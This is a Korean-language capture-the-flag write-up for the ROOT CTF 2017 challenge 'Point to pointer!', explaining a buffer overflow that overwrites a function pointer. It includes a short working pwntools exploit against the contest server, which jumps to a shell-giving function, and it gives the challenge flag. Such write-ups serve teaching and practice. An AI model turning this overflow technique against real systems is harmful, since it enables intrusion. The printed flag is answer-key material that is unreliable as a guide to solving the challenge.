 # ROOT CTF 2017 1st
## Overview
Point to pointer!

529

넘나 쉬운 문제 당신도 풀 수 있습니다!
nc 222.110.147.52:42632
Link

## Analyze

정말로 넘나 쉬웠...

먼저, 헥스레이로 열어서 소스를 분석해봐요!

![Hex-rays](Hex-rays.PNG)

소스를 보면 8바이트 int + 2 부분에다가 `sub_400796` 을 넣고 이 부분을 실행시킨 다음,

`저 BOF예요!!!!!!!!!!!!!!!@@!!!@!!@!!!!` 하고 온몸을 통해 외치는 read 함수를 통해 입력을 받고,

다시 하겠냐고 묻고 `Y` (ASCII로 89) 라면 한번 더 실행해요.

일단 (__int64 *)buf + 2 의 주소와 buf 의 주소 차이는 16 이네요..

그러므로 16바이트를 아무거나, 8바이트에 함수의 주소를 넣으면 되는데..

![Hex-rays2](Hex-rays2.PNG)

띠용 ㅋ 원샷 있네요.

감삼다 ㅎ

![Hex-rays3](Hex-rays3.PNG)

이제 이 주소 가지고 똭똭 해주면

```python
from pwn import *

p = remote("222.110.147.52", 42632)

print(p.recv())

p.sendline(p64(0x4007A7) * 5)

print(p.recv())

p.send("Y")

p.interactive()
```

요로코롬 코드가 탄생합니다!

이때는 계산하기 귀찮아서 그냥 주소 5번 때려쪄요 헤헷

## Flag
![Solve](Solve.PNG)

`FLAG{P0InT_2_pOiNt_2_PO1t3R!}`